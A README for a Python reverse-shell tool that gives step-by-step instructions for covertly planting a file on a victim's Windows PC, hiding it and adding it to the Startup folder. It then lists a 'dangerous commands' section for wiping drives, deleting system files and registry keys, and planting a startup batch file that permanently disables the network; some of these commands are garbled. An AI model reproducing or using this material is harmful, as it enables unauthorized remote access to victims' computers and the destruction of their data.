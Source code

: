 # REVERSE SHELL

Description: This program is a python based reverse-shell attack tool which is cross-platform.

**_HOW TO RUN:_**

To run this (windows 7-10):

**_ATTACKER PART:-_**
STEP-1: Type ipconfig in cmd to check your local ipv4.
STEP-2: Change victim.py file's server variable to your local ipv4
STEp-3: Run py attacker.py on attacker computer

(ATTACKER COMPUTER SHOULD BE ON THE SAME LOCAL NETWORK AS THE VICTIM'S PC)

Next, you need to plant the victim.py file on your victim's computer, make it hiddenn and add it to startup programs list.

**_VICTIM PART_**
(MAKE SURE VICTIM HAS PYTHON 3.6 or higher as python 3.6 or lower version do not support the new threading module)
STEP-1: Plant the file
STEP-2: Make it Hidden - To make the file hidden, Right click on the file, click on hidden then click Apply and then Click Ok
STEP-3: Add the file to startup folder - "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

THIS PUT'S THE FILE IN STARTUP FOR ALL USERS, TO PUT IT IN STARTUP FOR ONLY ONE USER, ADD THE FILE TO THE FOLLOWING DIRECTOR -
C:\Users\[User Name]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.

STEP-4: Open cmd in that folder and type: pythonw s.py

The w flag added after python makes the file run in background

STEP-5: Now the reverse-shell file is running in the background and you can close the current shell (cmd/terminal)

Now you can run every command that a normal cmd user can run from the attacker's computer
Here are some basic commands to get you started:-

Start chrome - start chrome
Start notepad - start notepad
Open a URL - start {url here}
Shutdown Computer - shutdown /s
Network Details - ipconfig
List Director - dir
Network Statistics - netstat
ping an ip/url - ping {ip/url}
Trace Route of ip/url - tracert {ip/url}
Power configuration - powercfg
Basic User Details - whoami
System Information - systeminfo
Schedule Tasks - schtasks {task}

DANGEROUS COMMANDS:
Don't use for pranks, these commands can permanently harm a pc's software/hardware so even changing os won't work to fix some issues.

i) Format Hard drives :-

rd/s/q/ D:\
rd/s/q/ C:\
rd/s/q/ E:\

ii) Delete System 32 Files :-

attrib -r -s -h c:\autoexec.bat
del c:\autoexec.bat
attrib -r -s -h c:\boot.ini
del c:\boot.ini
attrib -r -s -h c:\ntldr
del c:\ntldr
attrib -r -s -h c:\windows\win.ini
del c:\windows\win.ini

iii) Delete All System Files:-

del*.*

Delete Registry Entry:-
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/\*

iv) Disable Internet Permanently

echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:window

v) Windows Blue Screen of Death

@echo off
delete %systemdrive%\*.\* /f /s

FOR MORE INFO, Contact Developer :-

email: arjunagnihotri14a@gmail.com
